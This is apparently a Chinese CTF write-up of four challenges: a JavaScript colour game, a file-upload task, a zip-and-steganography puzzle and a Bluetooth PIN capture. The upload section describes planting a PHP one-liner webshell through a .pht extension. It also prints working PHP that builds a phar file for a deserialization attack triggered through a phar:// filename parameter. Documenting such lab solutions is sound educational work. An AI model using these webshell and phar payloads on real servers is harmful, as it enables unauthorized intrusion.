# web

## 找色差吗?

查看js代码


F12，控制台输入语句
```js
var _0x268d05 = { 'vFYyb': _0x2f2b('0x1983', 'vXeU'), 'rshMS': function _0x593385(_0x36599a, _0x5f41b7) { return _0x36599a / _0x5f41b7; }, 'xWQRG': function _0x337c99(_0x53c811, _0xe4afa4) { return _0x53c811 - _0xe4afa4; }, 'ZuQxI': function _0x242b7d(_0x4e358a, _0xbefac3) { return _0x4e358a * _0xbefac3; }, 'DCMCO': function _0x1e5dd4(_0x577f5a, _0x2dafd8) { return _0x577f5a > _0x2dafd8; }, 'bPzve': function _0x49960b(_0x43d8c9, _0x3dd75e) { return _0x43d8c9 === _0x3dd75e; }, 'GFiYI': function _0x1a3caa(_0x167948, _0x13fa0c, _0x580fa8) { return _0x167948(_0x13fa0c, _0x580fa8); }, 'rQJbg': _0x2f2b('0x1984', 'F8QA'), 'fwSPi': function _0xbc327(_0x3da5ce, _0x3e3e3c) { return _0x3da5ce(_0x3e3e3c); }, 'GkSez': '4|3|1|0|2', 'UVjif': _0x2f2b('0x1985', ']Z3^'), 'TQMlf': function _0x3c2939(_0x30791e, _0x108e7b) { return _0x30791e > _0x108e7b; } };

var _0x60a0ea = _0x268d05[_0x2f2b('0x1999', '6T2X')];

console['log'](strEnc('find_different_blocks', _0x60a0ea, '8c4f1', 'faf82'));
```
输出的字符串 md5

21E7AE40B06B28439D031D6848F6E5736B28CA5D50DB89BC34468C8195AC002AB593117A1BDAEA972B8C223883FA6443

得到flag

84673edf8a1ab819dadfdb5da4f41cfe

---

## easy upload

上传时进行 FUZZ,发现可以上传pht后缀的文件，上传一个一句话，蚁剑连接，查看flag





赛后看了下官方writeup,好像是非预期解

官方解法是
- 发现存在 index.php~文件，下载得到部分源码
- 经过一番上传测试之后发现文件名中只要含有 php 及其他 php 文件后缀就无法上传
- 但是发现只要不是 php 即可上传，同时由部分源码得知存在 ORZ 类，该类的析构函数会输出 flag
- 同时由源码得，虽然存在 ORZ 类，但是没有反序列化操作，而是将传入 filename 参数会被带入
file_get_contents 中执行。这里可以想到利用 phar://协议和文件上传来进行反序列化。
- 通过如下 php 代码生成 phar 格式文件（注意：要将 php.ini 中的 phar.readonly 选项设置为 Off，
否则无法生成 phar 文件），然后上传至服务器
    ```php
    <?php
        class ORZ{
            public function __destruct(){
            }
        }

        #unlink("phar.phar");
        $phar=new Phar("phar.phar");
        $phar->startBuffering();
        $phar->setStub("GIF89a"."<?php _HALF_COMPILER(); ?>");
        $o = new ORZ();
        $phar->setMetadata($o);
        $phar->addFromString("test.txt","test");
        $phar->stopBuffering();
    ```
- 通过上传构造好的 phar 文件，然后通过 file_get_contents 函数触发其中的反序列化
    - 根据返回得知上传后的文件地址
    - 之后通过 get 传递参数 `filename=phar://ec5decca5ed3d6b8079e2e7e7bacc9f2/phar.phar/test.txt` 即可获得 flag

---

# Misc

## 巨人的秘密

binwalk 跑一下发现有 zip 在里面,直接用 winrar 修复出来,然后改一下后缀名为 zip





通过 010 editor 将图片从图片源文件另存出来并压缩成 zip,确保 CRC 一致





然后进行明文攻击





结合 010 里看到的 DeEgger 可知是 DeEgger Embedder 隐写

解密



根据主办方给出的工具 PixelJihad，用密码 Wings_of_freedom 成功解出



---

# 创新组

## blueshark

binwalk 发现了一个 7z 的压缩包，直接当成压缩包打开，发现有个 password_is_Bluetooth_PIN.txt文件





Ctrl + F，选择 分组详情 或者 分组列表，字符串 或者 正则表达式，搜 pin。



PIN 就是 141854。

用来解压就可以得到 flag。

6da01c0a419b0b56ca8307fc9ab623eb
